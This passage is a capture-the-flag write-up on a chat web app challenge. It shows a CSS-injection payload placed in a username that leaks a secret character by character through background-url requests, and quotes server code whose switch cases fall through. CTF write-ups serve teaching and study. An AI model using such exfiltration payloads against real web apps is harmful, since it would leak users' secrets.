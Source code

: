 If we look closely at the `else` case, we can notice that DOM of the page will get extended with `<style>span[data-name^=${esc(data.name)}] { color: red; }</style>`, and we control the `data.name` parameter, since it's the username of banned user.

We can, therefore, use a name which closes the opening style tags and adds new ones, for example:

```
/name a i]{}] span[data-secret^=C i]{{background: url(/room/{room_id}/send?name=leaker&msg=C)}}span[data-name^=whatever
```

This way we can inject exfiltration CSS code, which will get triggered if any of users present on the chat have the secret displayed on the screen and it starts with `C`.
The only thing we need to trigger this is to call an admin and convince him to ban the user.

## convince admin to issue `/secret` command
Now we come to the last issue, how to convince admin to issue `/secret` command.
This is a bit funny, because we've seen in writeups of some other teams, that they got this part all wrong, and their solution worked purely by accident.

We've spent quite a while on this step, because we knew from the start that simply forcing admin to send message `/secret something` to the chat won't work, contrary to what some other teams claim.
We tested this on a standard user, and we confirmed in the source code that such action will NOT cause the secret to appear on the chat.
The reason is quite trivial really, if we look at the sever code for handling this action:

```javascript
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
```

There is no broadcast here!
The response is never send via SSE, and therefore it will not get handled on the client side by the event handler which causes the secret to be added to DOM of the page.

## So how come it actually worked for some other teams?
Pure coincidence.
The real vulnerability is in the event handling function on the server side:

```javascript
    switch (msg.match(/^\/[^ ]*/)[0]) {
      case '/name':
        if (!(arg = msg.match(/\/name (.+)/))) break;
        response = {type: 'rename', name: arg[1]};
        broadcast(room, {type: 'name', name: arg[1], old: name});
      case '/ban':
        if (!(arg = msg.match(/\/ban (.+)/))) break;
        if (!req.admin) break;
        broadcast(room, {type: 'ban', name: arg[1]});
      case '/secret':
        if (!(arg = msg.match(/\/secret (.+)/))) break;
        res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');
        response = {type: 'secret'};
      case '/report':
        if (!(arg = msg.match(/\/report (.+)/))) break;
        var ip = req.headers['x-forwarded-for'];
        ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
        response = await admin.report(arg[1], ip, `https://${req.headers.host}/room/${room}/`);
    }
```
